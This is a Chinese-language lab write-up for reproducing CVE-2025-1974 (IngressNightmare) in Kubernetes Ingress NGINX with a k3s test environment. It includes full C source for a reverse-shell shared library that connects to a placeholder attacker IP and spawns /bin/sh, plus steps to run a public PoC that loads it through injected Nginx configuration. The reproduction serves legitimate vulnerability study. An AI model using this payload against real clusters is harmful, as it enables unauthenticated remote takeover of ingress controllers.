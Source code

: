 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）

Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d

```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```
sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/#

```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```
C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }

```
修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。

```
cd /exploit
python3 exploit.py

```
可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
